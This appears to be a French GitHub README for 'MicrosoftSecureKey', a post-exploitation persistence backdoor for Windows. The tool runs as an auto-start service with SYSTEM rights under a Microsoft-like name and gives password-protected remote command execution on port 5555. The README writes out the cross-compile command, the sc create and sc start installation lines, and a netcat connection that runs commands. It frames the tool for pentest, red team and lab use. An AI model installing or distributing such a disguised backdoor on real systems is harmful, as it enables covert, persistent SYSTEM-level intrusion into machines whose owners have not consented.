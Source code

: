 # MicrosoftSecureKey

🔍 MicrosoftSecureKey est un outil de post-exploitation (Pentest ou Read Team) qui permet le maintien d'accès sur un système Windows par le biais d'un mot de passe.
Il fonctionne en mode service Windows, ce qui permet d'ouvrir un port et d'exécuter des commandes à distance avec des droits NT/SYSTEM.

Comment ça marche :

 ✅ Compilation du programme 
 ✅ Installation du service sur le système distant
 ✅ Démarrage du service en mode AUTO
 ✅ Un simple netcat permet d'éxécuter des commandes.

 ⚠️ Une fois le mot de passe saisi, s'il y a un double saut de ligne cela veut dire que l'on est connecté, s'il y a un seul saut de ligne cela veut dire que la connexion a échoué.

Idéal pour les environnements contrôlés, les laboratoires de test, ou pour les administrateurs système qui veulent garder la main à distance sans passer par des solutions complexes.

Compilation :

`x86_64-w64-mingw32-gcc -o MicrosoftSecureKey.exe MicrosoftSecureKey.c -lws2_32`

Installation :

`sc create MicrosoftSecureKey binPath="C:\Windows\System32\MicrosoftSecureKey.exe" start=auto`
`sc start MicrosoftSecureKey`

Command :
`nc IP_SRV 5555`
`Enter Password`
`whoami`


  ## Vidéo de démonstration 
  ![](https://github.com/xnom0/MicrosoftSecureKey/blob/main/Service.mp4)
